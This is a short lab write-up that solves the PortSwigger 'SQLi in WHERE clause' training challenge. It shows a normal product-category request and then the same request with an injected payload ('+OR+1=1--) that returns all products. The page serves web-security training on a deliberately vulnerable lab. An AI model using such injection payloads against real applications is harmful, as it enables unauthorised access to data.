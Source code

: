 ```yaml
---
title: PortSwigger - SQLi 1 - SQLi in WHERE clause
date: 2023-03-02
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal 

Show all the products no matter the category.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

With payload:

````text
<website>/products?category='+OR+1=1--
````
